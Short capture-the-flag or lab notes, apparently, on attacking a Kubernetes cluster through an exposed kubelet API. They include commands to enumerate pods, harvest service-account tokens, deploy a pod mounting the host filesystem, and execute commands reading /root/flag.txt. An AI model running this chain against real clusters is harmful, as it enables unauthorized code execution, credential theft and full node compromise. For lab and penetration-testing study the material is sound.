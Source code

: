 https://faun.pub/attacking-kubernetes-clusters-using-the-kubelet-api-abafc36126ca
https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster
https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216

# get list of running pods
curl -k -L https://10.129.230.82:10250/runningpods | python -m json.tool

# use kubletectl to run API commands easier and search for RCE and tokens
./kubeletctl_linux_amd64 -s 10.129.230.82 scan rce
./kubeletctl_linux_amd64 -s 10.129.230.82 scan token

# get more information on nginx pod (specific image it's using)
kubectl --insecure-skip-tls-verify=true --server=https://10.129.230.82:8443 --token="${NGINX_TOKEN}" edit pod nginx

# create pod that uses same image as nginx pod and mounts the node host filesystem instside it
kubectl --insecure-skip-tls-verify=true --server=https://10.129.230.82:8443 --token="${NGINX_TOKEN}" apply -f pod-to-node.yml -n default

# use node filesystem access to retrieve flag
curl -k -d "cmd=cat /root/flag.txt" https://10.129.230.82:10250/run/default/attacker-pod/attacker-pod"

